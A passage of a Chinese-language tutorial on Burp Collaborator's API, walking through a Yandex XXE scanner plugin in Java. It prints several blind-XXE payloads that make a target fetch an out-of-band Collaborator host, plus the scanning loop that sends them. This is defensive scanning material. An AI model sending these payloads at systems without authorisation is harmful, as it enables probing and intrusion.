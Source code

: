 可以看到此方法与上述方法的区别吗？其区别在于一个是检索单个 payload，另外一个是检索在插件运行中生成的所有 payload 是否被请求。

**fetchInfiltratorInteractionsFor 与 fetchAllInfiltratorInteractions 不常用，不予介绍。**

学习完了三个主要方法之后，我们就可以开始了解一下使用这些方法可以做什么了。我们需要先想想，Burp 的 CollaboratorClient 相当于一个 dnslog，我们一般都用 dnslog 来测试什么呢？

**BLIND XXE、BLIND SSRF、SQL 外带、Blind OS INJECTION 等。**

接下来以 github 的某个 XXE 扫描插件来介绍如何使用此 api 的三个方法实现一个 Blind XXE Scanner。

插件地址：[XXEPlugin.java](https://github.com/yandex/burp-molly-pack/blob/8c9aa5766dcd4b49d3258bf7f3790bd318fe9b7f/src/main/java/com/yandex/burp/extensions/plugins/audit/XXEPlugin.java)

重点关注以下代码：

```bash
public void initXXEPayloads() {
        XXEPayloads.add("<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\"?>\n<!DOCTYPE test [\n<!ENTITY % remote SYSTEM \"http://{collaboratorPayload}/\">\n%remote;\n]><test>test</test>");
        XXEPayloads.add("<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\"?><!DOCTYPE root PUBLIC \"-//B/A/EN\" \"http://{collaboratorPayload}/\"><root>a0e5c</root>");
        XXEPayloads.add("<?xml version=\"1.0\"?><!DOCTYPE foo [<!ENTITY xxe1 \"dryat\"><!ENTITY xxe2 \"0Uct\"><!ENTITY xxe3 \"333\"><!ENTITY xxe \"&xxe1;&xxe3;&xxe2;\">]><methodCall><methodName>BalanceSimple.CreateOrderOrSubscription</methodName><params><param><value><string>&xxe;test</string></value></param><param>x</params></methodCall>");
        XXEPayloads.add("<?xml version=\"1.0\" encoding=\"UTF-8\"?>\n<!DOCTYPE tst SYSTEM \"http://{collaboratorPayload}\">\n<tst></tst>");
    }

    @Override
    public List<IScanIssue> doScan(IHttpRequestResponse baseRequestResponse, IScannerInsertionPoint insertionPoint) {
        IResponseInfo resp = helpers.analyzeResponse(baseRequestResponse.getResponse());
        IRequestInfo req = helpers.analyzeRequest(baseRequestResponse.getRequest());
        if (resp == null | req == null) return null;

        URL url = helpers.analyzeRequest(baseRequestResponse).getUrl();
        if (flags.contains(url.toString())) return null;
        else flags.add(url.toString());

        IBurpCollaboratorClientContext collaboratorContext = callbacks.createBurpCollaboratorClientContext();
        String collaboratorPayload = collaboratorContext.generatePayload(true);
        List<IScanIssue> issues = new ArrayList<>();

        for (String xxe : XXEPayloads) {
            xxe = xxe.replace("{collaboratorPayload}", collaboratorPayload);
            List<String> headers = helpers.analyzeRequest(baseRequestResponse).getHeaders();
            headers.set(0, headers.get(0).replace("GET", "POST"));
            headers.removeIf(header -> header != null && header.toLowerCase().startsWith("content-type:"));
            headers.add("Content-type: application/xml");

            byte[] attackBody = helpers.buildHttpMessage(headers, helpers.stringToBytes(xxe));
            IHttpRequestResponse attackRequestResponse = callbacks.makeHttpRequest(baseRequestResponse.getHttpService(), attackBody);
            List<IBurpCollaboratorInteraction> collaboratorInteractions = collaboratorContext.fetchCollaboratorInteractionsFor(collaboratorPayload);

            if (attackRequestResponse != null && attackRequestResponse.getResponse() != null
                    && collaboratorInteractions != null
                    && (!collaboratorInteractions.isEmpty() || helpers.bytesToString(attackRequestResponse.getResponse()).contains("dryat0Uct333"))) {
                String attackDetails = "XXE processing is enabled at: \n" + helpers.analyzeRequest(attackRequestResponse).getUrl().toString();

```